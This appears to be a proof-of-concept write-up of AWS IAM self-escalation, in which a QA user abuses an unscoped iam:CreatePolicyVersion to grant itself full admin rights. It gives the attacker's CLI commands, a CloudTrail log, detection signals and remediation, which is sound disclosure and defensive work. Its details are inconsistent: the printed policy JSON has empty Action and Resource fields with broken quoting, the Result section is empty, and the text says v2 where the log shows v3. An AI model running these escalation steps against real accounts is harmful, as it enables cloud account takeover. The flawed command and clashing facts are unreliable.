


# PoC: IAM Self-Escalation via iam:CreatePolicyVersion

## Summary
The `qa-a` IAM user was granted `iam:CreatePolicyVersion` with `Resource: "*"`,
intended to let QA manage test-environment policies. Because the permission
wasn't scoped away from qa-a's own attached policy, qa-a could create a new
version of its own policy granting full administrative access, then set that
version as active — fully self-escalating with zero additional permissions.

## Environment
- User: `qa-a`
- Policy: `qa-testing-P` (customer-managed)
- Original permissions: scoped S3/EC2 read-only + iam:CreatePolicyVersion (Resource: *)

## Attack steps

**1. Confirm current identity:**
aws sts get-caller-identity --profile qa-a

**2. Create a new malicious policy version, granting full access, and set as default:**
aws iam create-policy-version --policy-arn arn:aws:iam::<ACCOUNT_ID>:policy/qa-testing-P --policy-document "{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":"","Resource":""}]}" --set-as-default --profile qa-a

**Result:**

**3. Verified independently via admin account:**
aws iam get-policy --policy-arn arn:aws:iam::<ACCOUNT_ID>:policy/qa-testing-P --profile admin-k

Confirmed `DefaultVersionId: "v2"` — the escalation is live account-wide.

## Impact
qa-a, originally scoped to view-only S3/EC2 access, now has unrestricted
administrative control over the AWS account.

## Detection
[CloudTrail event details- JSON]
{
    "eventVersion": "1.11",
    "userIdentity": {
        "type": "IAMUser",
        "principalId": "xx",
        "arn": "arn:aws:iam::xx:user/QA-a",
        "accountId": "xx",
        "accessKeyId": "xx",
        "userName": "QA-a"
    },
    "eventTime": "2026-09-14T18:47:25Z",
    "eventSource": "iam.amazonaws.com",
    "eventName": "CreatePolicyVersion",
    "awsRegion": "us-east-1",
    "sourceIPAddress": "xx",
    "userAgent": "aws-cli/2.36.44 md/awscrt#0.36.2 ua/2.1 os/windows#11 md/arch#amd64 lang/python#3.14.6 md/pyimpl#CPython m/Z,E,n,b cfg/retry-mode#standard md/installer#exe sid/c76e63a135e9 md/prompt#off md/command#iam.create-policy-version",
    "requestParameters": {
        "policyArn": "arn:aws:iam:xx:policy/qa-testing-P",
        "policyDocument": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Action\":\"*\",\"Resource\":\"*\"}]}",
        "setAsDefault": true
    },
    "responseElements": {
        "policyVersion": {
            "versionId": "v3",
            "isDefaultVersion": true,
            "createDate": "2026-09-14T18:47:25Z"
        }
    },
    "requestID": "111f1469-2a7b-493c-bf82-0417e142c02a",
    "eventID": "2ea94512-38f2-41ef-b508-e24a7c871cec",
    "readOnly": false,
    "eventType": "AwsApiCall",
    "managementEvent": true,
    "recipientAccountId": "xx",
    "eventCategory": "Management",
    "tlsDetails": {
        "tlsVersion": "TLSv1.3",
        "cipherSuite": "TLS_AES_128_GCM_SHA256",
        "clientProvidedHostHeader": "iam.amazonaws.com"
    }
}
## Findings 

CloudTrail captured the escalation as a `CreatePolicyVersion` event. Key
evidence from the log:

- **Actor:** `arn:aws:iam::<ACCOUNT_ID>:user/QA-a` (IAMUser)
- **Event:** `CreatePolicyVersion` on `policy/qa-testing-P`
- **Malicious payload:** `requestParameters.policyDocument` shows
  `{"Action":"*","Resource":"*"}` — the exact escalation attempt, not just
  that a change occurred
- **Confirmed active immediately:** `responseElements.policyVersion.isDefaultVersion: true`
- **Mutating action flag:** `readOnly: false` — useful signal for building
  an automated alert (e.g. EventBridge rule triggering on any IAM
  `CreatePolicyVersion`/`SetDefaultPolicyVersion`/`AttachUserPolicy` call
  from a non-admin principal)

## Remediation
Scope `iam:CreatePolicyVersion`'s Resource to exclude policies attached to
the calling identity, or apply a permissions boundary preventing
self-modification.